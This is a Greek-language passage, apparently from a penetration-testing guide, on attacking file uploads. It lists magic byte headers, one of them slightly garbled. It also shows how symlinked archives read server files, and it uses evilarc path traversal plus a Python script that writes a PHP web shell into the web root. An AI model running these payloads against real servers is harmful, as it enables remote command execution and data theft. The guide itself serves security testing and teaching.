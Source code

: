 #### Επέκταση Burp

{% embed url="https://github.com/portswigger/upload-scanner" %}

## Μαγικές Κεφαλίδες Μπάιτ

* **PNG**: `"\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03["`
* **JPG**: `"\xff\xd8\xff"`

Ανατρέξτε στο [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) για άλλους τύπους αρχείων.

### Αυτόματη αποσυμπίεση αρχείου Zip/Tar κατά τη μεταφόρτωση

Αν μπορείτε να ανεβάσετε ένα ZIP που πρόκειται να αποσυμπιεστεί μέσα στον server, μπορείτε να κάνετε 2 πράγματα:

#### Symlink

Ανεβάστε έναν σύνδεσμο που περιέχει μαλακούς συνδέσμους σε άλλα αρχεία, στη συνέχεια, αποκτώντας πρόσβαση στα αποσυμπιεσμένα αρχεία θα αποκτήσετε πρόσβαση στα συνδεδεμένα αρχεία:
```
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```
### Decompress in different folders

Η απροσδόκητη δημιουργία αρχείων σε καταλόγους κατά τη διάρκεια της αποσυμπίεσης είναι ένα σημαντικό ζήτημα. Παρά τις αρχικές υποθέσεις ότι αυτή η ρύθμιση μπορεί να προστατεύει από την εκτέλεση εντολών σε επίπεδο λειτουργικού συστήματος μέσω κακόβουλων αναρτήσεων αρχείων, η υποστήριξη ιεραρχικής συμπίεσης και οι δυνατότητες διαδρομής καταλόγου της μορφής ZIP μπορούν να εκμεταλλευτούν. Αυτό επιτρέπει στους επιτιθέμενους να παρακάμψουν περιορισμούς και να ξεφύγουν από ασφαλείς καταλόγους ανάρτησης αρχείων, χειραγωγώντας τη λειτουργικότητα αποσυμπίεσης της στοχευμένης εφαρμογής.

Μια αυτοματοποιημένη εκμετάλλευση για τη δημιουργία τέτοιων αρχείων είναι διαθέσιμη στο [**evilarc on GitHub**](https://github.com/ptoomey3/evilarc). Το εργαλείο μπορεί να χρησιμοποιηθεί όπως φαίνεται:
```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```
Επιπλέον, το **trick symlink με το evilarc** είναι μια επιλογή. Εάν ο στόχος είναι να στοχεύσετε ένα αρχείο όπως το `/flag.txt`, θα πρέπει να δημιουργηθεί ένα symlink σε αυτό το αρχείο στο σύστημά σας. Αυτό διασφαλίζει ότι το evilarc δεν θα συναντήσει σφάλματα κατά τη διάρκεια της λειτουργίας του.

Παρακάτω είναι ένα παράδειγμα κώδικα Python που χρησιμοποιείται για τη δημιουργία ενός κακόβουλου zip αρχείου:
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()
```